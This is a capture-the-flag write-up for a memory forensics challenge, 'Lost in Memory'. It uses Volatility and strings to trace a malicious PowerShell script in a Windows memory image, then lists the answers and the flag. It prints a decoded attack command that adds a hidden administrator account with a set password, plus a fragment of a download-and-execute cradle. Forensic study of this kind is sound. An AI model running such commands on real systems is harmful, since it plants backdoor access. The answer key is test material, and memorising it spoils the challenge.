






Lost in Memory
============

`vol.py -f EMU-OUTPOST.raw imageinfo`

`vol.py -f EMU-OUTPOST.raw --profile=Win7SP1x86_23418 consoles`



Items worth noting

`powershell.exe Pid: 1136` 

`C:\Users\emu\Downloads\monkey.doc.ps1` 

`iex (New-Object net.we`

`vol.py -f EMU-OUTPOST --profile=Win7SP1x86_23418 pstree`



Items worth noting:

`. 0x8449c528:powershell.exe                          1136   3176     17    432 2024-06-18 10:01:08 UTC+0000`

`.. 0x8452f600:powershell.exe                         2520   1136     11    306 2024-06-18 10:01:35 UTC+0000`

`.. 0x85e1f788:powershell.exe                         3268   1136     11    309 2024-06-18 10:01:34 UTC+0000`

```vol.py -f EMU-OUTPOST --profile=Win7SP1x86_23418 memdump -p 2520 --dump-dir .```

`strings 2520.dmp | grep "iex (New-Object net.we"`



`strings 2520.dmp | grep "powershell "`



Run pieces of the found Powershell script in powershell.



`'n'+'et'+' user admin '+'5'+'up'+'3r-5ecu'+'r3 /a'+'d'+'d;n'+'et '+'localgrou'+'p '+'administra'+'t'+'ors '+'adm'+'i'+'n /a'+'dd’`

Using Cyberchef we can replace the '+' and get the powershell command ran.



`'net user admin 5up3r-5ecur3 /add;net localgroup administrators admin /add'`

1: What was the name of the malicious executable? `monkey.doc.ps1`

2: What was the name of the powershell module used? `Invoke-ReflectivePEInjection`

3: What were the names of the two files executed from the malicious executable (In alphabetical order with - in between and no spaces)? `emu.dll-kiwi.dll`

4: What was the password of the new account created through powershell? `5up3r-5ecur3`

`DUCTF{monkey.doc.ps1_invoke-reflectivepeinjection_emu.dll-kiwi.dll_5up3r-5ecur3}`